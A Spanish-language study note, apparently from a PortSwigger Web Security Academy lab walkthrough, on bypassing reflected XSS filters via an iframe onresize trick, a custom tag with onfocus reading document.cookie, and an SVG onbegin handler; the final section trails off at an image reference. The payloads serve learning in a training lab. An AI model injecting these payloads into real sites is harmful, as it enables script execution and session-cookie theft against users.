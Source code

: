 ![[Pasted image 20230225194252.png]]

![[Pasted image 20230225194343.png]]

en los resultados vemos que varios eventos estan permitidos:

![[Pasted image 20230225194436.png]]

el objetivo es entregar una URL maliciosa a la victima y que **sin interaccion del usuario** se ejecute un `print`

podemos usar el evento `onresize` que al detectar una resize en la ventana ejecuta el evento, cargamos la pagina en un **iframe** y le damos un ancho establecido, el **iframe** al cargarse comienza con un tamaña por defecto y despues de cargar podemos establecer otro junto al evento `onload`:

```html
<iframe src="https://0ab100aa045c51c4c281572300880048.web-security-academy.net/?search=<body%20onresize=print()>" onload=this.style.width='100px'>
```

con esto completaremos el ejercicio.

### (contexts) Reflected XSS into HTML context with all tags blocked except custom ones

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';

<!--<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';-->
</script>
```

Esta inyección crea una etiqueta personalizada `<xss>` con el `id=x`, que contiene un evento `onfocus`  que activa la función `alert`. El hash al final de la URL se enfoca en este elemento tan pronto como se carga la página, lo que hace que se llame a la carga útil `alert`.

### (contexts) Reflected XSS with some SVG markup allowed

El sitio está bloqueando etiquetas comunes pero pierde algunas etiquetas y eventos SVG.

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

### (contexts) Reflected XSS in canonical link tag

- [https://portswigger.net/research/xss-in-hidden-input-fields](https://portswigger.net/research/xss-in-hidden-input-fields)

podemos cargar un parametro en la pagina principal y vemos que se refleja en el codigo en un link canonico:

![[Pasted image 20230225230939.png]]
